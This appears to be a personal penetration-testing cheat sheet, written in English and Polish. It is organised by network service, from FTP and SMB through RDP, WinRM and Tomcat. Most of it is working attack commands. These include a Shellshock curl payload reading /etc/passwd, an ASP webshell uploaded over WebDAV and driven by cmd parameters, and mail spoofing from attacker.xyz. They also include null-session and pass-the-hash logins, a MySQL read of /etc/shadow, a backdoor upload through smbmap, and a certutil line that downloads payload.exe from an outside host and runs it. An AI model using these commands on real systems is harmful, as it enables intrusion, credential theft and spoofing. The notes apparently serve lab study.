

# FTP (T:20,21)
is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients and vice versa.

```bash
hydra ...
```
## $ nmap

https://nmap.org/nsedoc/scripts/ftp-brute

```bash
$ nmap 192.235.127.3 -p 21 --script
```

![[nmap#ftp]]

## $ msf
![[Metasploit#FTP]]


## $ ftp

anonymous login

```bash
$ ftp <IP>
> user: anonymous
> password: password
ftp> ls
ftp> get filename.txt
```

# SSH (T:22)
SSH (Secure Shell) - SSH is a cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet.

```bash
hydra ...
```

```bash
auxiliary/scanner/ssh/ssh_version
```

## $ nmap

```bash
$ nmap ... -script
```

![[nmap#ssh]]

## $ hydra

```bash
$ hydra
```

## $ msf
![[Metasploit#SSH]]

# SMTP (T:25/465/587)

Simple Mail Transfer Protocol

```bash
$ nmap -sV -script banner <target_IP>

$ nc <target_IP> 25
    VRFY admin@openmailbox.xyz # Does user “admin” exist on the server machine?
    VRFY commander@openmailbox.xyz # Does user “commander” exist on the server machine?

# What commands can be used to check the supported commands/capabilities?
$ telnet <target_IP> 25
    HELO attacker.xyz
    EHLO attacker.xyz

# How many of the common usernames present in the dictionary ../usernames.txt exist on the server.
$ smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t <target_IP>
```

## $ msf

![[Metasploit#SMTP]]

## send fake mail to user using telnet

Connect to SMTP service using telnet and send a fake mail to root user.

```bash
$ telnet <target_IP> 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
# There is a dot(.) in the last line which indicates the termination of data.
```

## sendmail

```bash
$ sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.26.29.3 -u Fakemail -m "Hi root, a fake from admin" -o tls=no

```

# IIS - WebDAV (T:80/443)
Microsoft IIS (Internet Information Services) - Proprietary web server software developed by Microsoft that runs on Windows. 
WebDAV (Web Distributed Authoring & Versioning) -  HTTP extension that allows clients to update, delete, move and copy files on a web server. WebDAV is used to enable a web server to act as a file server.
Sprawdzić nagłówkiem `HTTP OPTION` jakie opcje są dostępne 
Supported executable file extensions: `.asp`, `.aspx`, `.config`, `.php`
## $ hydra

![[hydra#Http-get (WebDAV)]]
## $ davtest

Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

```bash
$ davtest -url http://10.0.16.177/webdav
$ davtest -auth bob:password_123321 -url http://10.0.16.177/webdav
```

## $ cadaver

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

```bash
$ cadaver
> open http://target/webdav
 username: ...
 password: ...
> put /usr/share/webshells/asp/webshell.asp # wgranie webshella na server
# otworzyć webshell w przeglądarce

http://target/webdav/webshell.asp?cmd=whoam
http://target/webdav/webshell.asp?cmd=dir+C%3A%5C
http://target/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt
```

## $ msf

```bash
use exploit/windows/iis/iis_webdav_upload_asp
setg PATH /webdav/metsploit.asp # pamiętać o zmianie ścieżki
```


# HTTP web server (T:80)

## $ msf
![[Metasploit#HTTP]]
## $ whatweb

```bash
$ whatweb <IP>
```

## $ http

```bash
$ http <IP>
```

## $ browsh

```bash
$ browsh --startup-url http://10.0.29.163/Default.aspx
```

# HTTP file server (T:80)

# Apache Web Server (T:80/443)
Free and open source cross-platform web server released under the Apache License 2.0. Apache accounts for over 80% of web servers globally.

## Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable
```

## $ nmap>Shellshock

payload przemycany najczęściej w nagłówku `User-Agent`

```bash
$ nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin[,cmd=ls] <target>
```

## $ msf>Shellshock

```bash
exploit/multi/http/apache_mod_cgi_bash_env_exec
```

# SNMP (T:161;U:161)
**Simple Network Management Protocol**
pobrać snmp-mibs-downloader i zainstalować
comment out 4th line in /etc/snmp/snmp.conf
## $ snmpwalk
```bash
$ snmpwalk -v 1 -c public demo.ine.local # find an SNMP community string by brute force guessing
```

## $ snmpset
## $ nmap
![[nmap#snmp]]
# SMB (T:445)
SMB/CIFS (Server Message Block Protocol) - (czasem oparty na protokole NetBIOS) Network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

```bash
enum4linux ...
smbmap ...
smbclient ...
```
```bash
exploit/linux/samba/is_known_pipename
```

## NetBIOS (U:137,138, T:139)
Network Basic Input / Output System
U:137 - name services
U:138 - datagram services
T:139 - session services

For example, when a device creates a file sharing connection the session service is used. Once the session has been established, the two workstations use the SMB protocol.

**Zasoby automatycznie udostępniane przez Windows**
- **ADMIN$:** Udostępnia dostęp do katalogu systemowego (zazwyczaj `C:\Windows`) na zdalnym komputerze. Jest to zasób, który ułatwia administrację systemem. **Przykład użycia:** Umożliwia zdalne zarządzanie plikami i folderami w katalogu systemowym, zdalne instalacje oprogramowania itp.
- **IPC$ (Inter-Process Communication):** umożliwia komunikację międzyprocesową (Inter-Process Communication) między komputerami. Jest to zasób używany do przekazywania informacji między procesami na zdalnym komputerze. **Przykład użycia:** Umożliwia zdalne wykonywanie poleceń i inne operacje, które wymagają komunikacji międzyprocesowej.
- **C$:** Udostępnia dostęp do dysku C na zdalnym komputerze. Jest to zasób, który umożliwia zdalne zarządzanie zawartością dysku C, w tym przeglądanie, kopiowanie plików, zdalne instalacje oprogramowania, i inne operacje administracyjne. **Przykład użycia:** Pozwala na zdalne przeglądanie, zarządzanie i manipulację plikami i folderami na dysku C zdalnego komputera.

**Null sesion attack** - a malicious user can establish connection to a Windows system without providing any username or password. Connection must be stablished t oadministrative share `IPC$`.
```PowerShell
C:\> net use \\<IP>\IPC$ "" /u:"" # NetBIOS/SMB Null session attack
```
### C:\\> nbtstat
```PowerShell
C:\> nbtstat -A <IP>[</mask>] [-v] # info about machine using NetBIOS [IP/mask], [verbose]
Name           Type   Status
ELS-WINXP <20> UNIQUE Registered
...
ELS-WINXP <20>- 20 means service server that shares sth: file/printer/...
```

### C:\\> net
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
IN MSFCONSOLE MIGRATE TO PROCES EXPLORER.EXE BEFORE  USING NET VIEV ... 
```bahs
msf> migrate -N explorer.exe
```
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
```PowerShell
C:\> net viev <IP> # list domains, computers, shared resources by machine
C:\> net use <K:/*> \\<IP/hostname>\<resource_name> # connect/disconnect to/from shared resource, map/mount SMB share <resource_name> to K/random_letter
C:\> net use <Z:/*> \\<IP/hostname>\<resource_name> /user:<username> <passwd>  # map SMB share to Z/random_letter  
C:\> net use * /delete # delete all SMB connections 

```

### $ mount.cisf
```bash
$ mount.cifs //<IP>/<resource_name> </media/mount/dir> [user=<username>,pass=<passwd>] # mount SMB share in Linux, like net use
```

### $ enum4linux
Tool for enumerating information from Windows and Samba systems.  
Wrapper around rpcclient, net, nmblookup, smbclient
```bash
$ enum4linux <IP> # enumerating basic NetBIOS/SMB information
$ enum4linux <IP> -v # enumerating basic NetBIOS/SMB information verbose mode, show commands that runs
$ enum4linux <IP> -a# enumerating all simple NetBIOS/SMB information
$ enum4linux <IP> -u <user> -p <passwd># log as user and enumerate NetBIOS/SMB information
```

### $ smbclient
```bash
$ smbclient -L <IP> # list all shares from <IP>, Anonymous login
$ smbclient -L <IP> -N # List all available shares on the samba server, no password
$ smbclient \\\\<IP>\\<share> # connect to share with NULL session, >password: press Enter
$ smbclient \\\\<IP>\\\\<share> -U <user> # connect to share, check if share exist
$ smbclient \\\\<IP>\\<share> -U <user> -N # connect to share, no password provided
$ smbclient \\\\<IP>\\<share> -U <user> [--password=<passwd>] # connect to share, as user, use password
$ smbclient \\\\<IP>\\<share> -U <user> [--pw-nt-hash=<NT_hash>] # connect to share, as user, use NT Hash
```

### $ rpcclient
https://www.hackingarticles.in/active-directory-enumeration-rpcclient/
```bash
$ rpcclient -N -U "" <IP> # connect to <IP> using NetBIOS/SMB/RPC; null session, 
$ rpcclient -U [<domain/>]<user>[<%passwd>] <IP> # NetBIOS/SMB login to host
$ rpcclient <commands>help, enumdomusers,enumdomgroups, lookupnames <user>,anumalsgroups, srvinfo, queryuser, enumprivs # usefull commands after logging in
```

## Look  to #Netbios for other tools
## $ nmap
![[nmap#smb]]

## $ smbmap

Samba Share Enumerator

```bash
$ smbmap -u <user> -p "" -d . -H <IP> # discover all shared folders and drives jako gość (domyślne konto)
$ smbmap  -u <user> -p password1 -H <IP># pokazuje zasoby i jakie ma uprawnienia do nich użytkownik
$ smbmap -u <user> -p smbserver_771 -d . -H <IP> # jak wyżej ale jako odpowiedni użytkownik
$ smbmap -u <user> -p smbserver_771 -H <IP> -x 'ipconfig' # execute command on the target machine
$ smbmap -u <user> -p smbserver_771 -H <IP> -L # Listing all drives on the specified host
$ smbmap -u <user> -p smbserver_771 -H <IP> -r 'C$' # List contents of the directory of C:\ drive
$ smbmap -u <user> -p smbserver_771 -H <IP> --upload '/root/kali/backdor' 'C$\backdor' # Uploading a sample file
$ smbmap -u <user> -p smbserver_771 -H <IP> -download 'C$\flag.txt' # Downloading a sample file
```

## $ msf

[[Metasploit#SMB]]

## $ nmblookup

```bash
# NetBIOS over TCP/IP client used to lookup NetBIOS names
$ nmblookup -A <IP>
```

## psexec
### $ msf>psexec

```bash
exploit/windows/smb/psexec
```

This module uses a valid administrator username and password (or password hash) to execute an arbitrary payload.
**Pass-the-hash:**
![[Pass-the-hash#$ msf>psexec]]
### $    impacket-psexec
![[tools/impacket#psexec]]

[[MSSQL]]
# MSSQL (T:1433)

## $ msf

![[Metasploit#MSSQL]]
## $ nmap
[[nmap#mssql]]

# MySQL (T:3306)

## $ mysql

```bash
$ mysql -h <ip> -u <root>
# pokaz  bazy dancyh na serwerze
$ show databases;
wejdź do konkretnej bazy danych
$ use db_name;
# pokaż tabele w bazie danych
$ show tables;
# pokaż całą zawartośc tabeli authors
$ select * from authors;
# policz ilośc wierszy tabeli authors
$ select count(*) from authors;
# podejrzyj plik
$ select load_file("/etc/shadow");
```
```bash
# update hasła dla użytkownika admin w tabeli wp_users
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```

## $ msf
![[Metasploit#MYSQL]]

## $ nmap

```bash
nmap <target> --script=<script-name> # np.: --script=http-fileupload-exploiter
```

[[nmap#mysql]]

# RDP (T:3389)
Remote Desktop Protocol - Proprietary GUI remote access protocol developed by Microsoft and is used to remotely authenticate and interact with a Windows system.

bardzo często port jest zmieniany na inny niż 3389

## $ msf>rdp_scanner

## $ msf>BlueKeep(vulnerability)

```bash
msfconsole
search bluekeep (jest skaner oraz samo skrypt RCE)
use bluekeep_rce
show targets
set target 2
```

## $ xfreerdp

```bash
$ hydra ...
# program do łączenia się poprzez RDP
$ xfreerdp /u:administrator /p:qwertyuiop /v:target:3333
$ xfreerdp /v:192.168.100.50 /u:mike /p:diamond +clipboard /dynamic-resolution
```

### $ passthehash z xfreerdp
```powershell
# https://www.stationx.net/pass-the-hash-attack/

# zmienia Restricted Acces jeśli jest włączony
$ reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# kali
$ xfreerdp /v:192.168.100.50 /u:Administrator /pth:5c4d59391f656d5958dab124ffeabc20 +clipboard /dynamic-resolutionz
```

# WinRM (HTTP:5985/HTTPS:5986)
Windows Remote Management Protocol - Windows remote management protocol that can be used to facilitate remote access with Windows systems. (Execute commands on remote machine)

## $ msf

```bash
# czy winrm jest włączony i jekie metody logowania
use auxiliary/scanner/winrm/winrm_auth_methods

# bruteforce winrm
use auxiliary/scanner/winrm/winrm_login

# Execute command on the target server
auxiliary/scanner/winrm/winrm_cmd

# exploit na meterpreter
exploit/windows/winrm/winrm_script_exec
```

## $ crackmapexec
![[crackmapexec#WinRM (T 5985/5986)]]

## $ evil-winrm

![[notatki/PenTest/Tools/evil-winrm#Windows Remote Management shell for pentesting.]]

## $ msf>winrm_auth_methods

This is very important to know, before we try to connect to the WinRM service. We need to use
a valid authentication method while connecting to the service

```bash
use auxiliary/scanner/winrm/winrm_auth_methods
```

## $ msf>winrm_cmd

This module runs arbitrary Windows commands using the WinRM Service

```bash
use auxiliary/scanner/winrm/winrm_cmd
...
set CMD whoami
```

## $ msf>winrm_script_exec

sesja meterpreter

```bash
use exploit/windows/winrm/winrm_script_exec
...
set FORCE_VBS true
```


# Apache Tomcat (T:8080)

The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.

## $ msf
[[Metasploit#Apache Tomcat]]

```bash
# kopiuje na windows plik z adresu ... i zapisuje do pliku payload.exe
certutil -urlcache -f http://10.10.18.6:8000/payload.exe payload.exe
dir
.\payload.exe
```


